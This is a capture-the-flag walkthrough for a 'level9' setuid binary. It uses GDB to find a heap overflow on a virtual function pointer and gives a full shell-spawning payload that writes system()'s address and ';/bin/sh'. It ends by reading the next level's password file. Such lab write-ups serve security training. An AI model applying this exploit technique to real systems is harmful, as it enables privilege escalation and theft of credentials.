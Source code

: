 # Level 9 Walkthrough

1. **Connect to the target machine**

	```bash
	ssh level9@<vm-ip> -p 4242
	```

2. **Check the files**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-s---+ 1 bonus0 users 5140 Mar  6  2016 level9
	```

3. **Test the binary**

	```bash
	./level9
	./level9 AAAA
	./level9 AAAA AAAA
	```

	It exits.

4. **Copy the binary locally for analysis**

	```bash
	scp -P 4242 level9@<vm-ip>:/home/user/level9/level9 .
	```

5.  **Analyze the binary in GDB**

	* The vulnerable code snippet:

	```
	0x08048690 <+156>:	mov    %eax,(%esp)
	0x08048693 <+159>:	call   *%edx
	0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
	0x08048698 <+164>:	leave  
	0x08048699 <+165>:	ret
	```

	* The offset to overwrite is `108` bytes (calculated as `2 ints * 4 bytes + setAnnotation 100 bytes`).
	* We aim to overwrite the memory at the address stored in `eax` to hijack control.

6. **Addresses of interest**

	Set a breakpoint at a key instruction where the virtual function is called:

	```gdb
	b *0x0804867c
	run AAAA AAAA
	info registers eax
	```

	Output:

	```
	eax            0x804a00c
	```

	Here, `%edx` holds a **virtual function pointer** and `eax` points to a memory location we want to overwrite.

7. **Find system address**

	```gdb
	p system
	```

	Output:

	```
	$1 = 0xb7d86060 <system>
	```

8. **Generate the payload**

	* Layout:

		```
		[ system address ][ padding 104 bytes ][ eax address ][ value to write (;/bin/sh) ]
		```

	* Payload command:

		```bash
		./level9 $(printf '\x60\x60\xd8\xb7' ; printf 'A%.0s' {1..104} ; printf '\x0c\xa0\x04\x08' ; printf ';/bin/sh')
		```

9. **Verify shell and get the password**

	```bash
	whoami
	```

	Output:

	```
	bonus0
	```

	```bash
	cat /home/user/bonus0/.pass
	```

	Output:

	```
	f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
	```
